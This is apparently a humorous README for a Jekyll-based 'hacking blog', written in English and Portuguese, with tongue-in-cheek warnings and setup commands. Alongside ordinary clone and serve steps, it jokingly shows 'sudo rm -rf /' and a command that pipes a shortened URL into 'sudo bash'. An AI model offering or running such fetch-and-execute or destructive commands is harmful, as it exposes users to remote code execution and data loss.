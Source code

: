 # 🧨 EXPLOSIVE HACKING BLOG 🧨

> **WARNING**: This blog will melt your firewall and corrupt your compliance.  
> Powered by **0-day exploits** and pure **niilismo interdimensional**.  
> `sudo rm -rf /` your expectations.

![Hackerman Level: 9000](https://i.giphy.com/media/3o7TKsQ8UQ4l4LhGz6/giphy.gif)

## 📡 COMANDOS DE INICIALIZAÇÃO:

```bash
# SE TU É SCRIPT KIDDIE:
git clone https://github.com/im7roy/cyber-covil.git && cd cyber-covil
bundle exec jekyll s --force_polling

# SE TU É HACKER DE VERDADE:
curl -sL https://bit.ly/3xpl017 | sudo bash -pwned
```
